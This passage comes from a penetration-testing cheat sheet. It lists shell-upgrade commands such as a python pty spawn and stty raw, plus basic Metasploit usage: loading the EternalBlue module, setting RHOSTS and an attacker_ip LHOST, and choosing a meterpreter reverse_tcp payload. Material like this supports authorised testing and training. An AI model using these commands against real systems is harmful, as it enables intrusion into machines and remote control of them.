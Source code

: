 ### Upgrading Shells
```bash
# Python TTY
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

# CTRL+Z (background shell)
stty raw -echo; fg
# Then press Enter twice

# Set terminal
export TERM=xterm
export SHELL=bash

# Alternative methods
echo os.system('/bin/bash')
/bin/sh -i
perl -e 'exec "/bin/sh";'
ruby: exec "/bin/sh"
```

---

## Metasploit Framework

### Basic Commands
```bash
# Start Metasploit
msfconsole

# Update
msfupdate

# Search
search type:exploit platform:windows
search cve:2017 type:exploit

# Module info
info exploit/windows/smb/ms17_010_eternalblue

# Use module
use exploit/windows/smb/ms17_010_eternalblue

# Show options
show options
show payloads
show targets

# Set options
set RHOSTS target_ip
set RHOST target_ip
set LHOST attacker_ip
set LPORT 4444
set payload windows/meterpreter/reverse_tcp

# Run exploit
exploit
run

# Background session
background
CTRL+Z

```